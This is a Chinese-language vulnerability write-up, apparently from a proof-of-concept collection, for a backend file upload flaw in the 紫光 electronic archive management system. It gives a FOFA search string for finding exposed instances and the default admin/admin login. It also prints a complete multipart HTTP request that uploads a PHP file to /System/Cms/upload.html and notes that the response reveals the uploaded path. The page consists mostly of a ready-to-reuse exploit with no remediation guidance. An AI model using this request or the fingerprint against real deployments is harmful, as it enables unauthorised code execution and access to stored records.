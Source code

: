 # 紫光档案管理系统 upload.html 后台文件上传漏洞

## 漏洞描述

紫光软件系统有限公司（以下简称“紫光软件”）是中国领先的行业解决方案和IT服务提供商。 紫光电子档案管理系统后台存在文件上传漏洞。攻击者可利用漏洞获取数据库敏感信息。

## 漏洞影响

```
紫光电子档案管理系统
```

## FOFA

```
app="紫光档案管理系统"
```

## 漏洞复现

登录页面

![image-20230314084520184](images/image-20230314084520184.png)

使用默认口令登录后台 admin/admin, 发送请求包

![image-20230314084534337](images/image-20230314084534337.png)

```
POST /System/Cms/upload.html?token=5117e82385cef4c12547fdd4c028b97a1-1 HTTP/1.1
Host: 
Accept: application/json, text/javascript, */*; q=0.01
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Content-Length: 614
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarygIRYWNxmDYiZBguT

------WebKitFormBoundarygIRYWNxmDYiZBguT
Content-Disposition: form-data; name="userID"

admin
------WebKitFormBoundarygIRYWNxmDYiZBguT
Content-Disposition: form-data; name="fondsid"

1
------WebKitFormBoundarygIRYWNxmDYiZBguT
Content-Disposition: form-data; name="comid"

1
------WebKitFormBoundarygIRYWNxmDYiZBguT
Content-Disposition: form-data; name="token"

6b79a77180e9ec3a7ca351ebe54641a2
------WebKitFormBoundarygIRYWNxmDYiZBguT
Content-Disposition: form-data; name="files[]"; filename="phpinfo.php"
Content-Type: text/php

<?php phpinfo();?>
------WebKitFormBoundarygIRYWNxmDYiZBguT--
```

![image-20230314084553654](images/image-20230314084553654.png)

回显路径即为上传成功的文件路径

![image-20230314084608438](images/image-20230314084608438.png)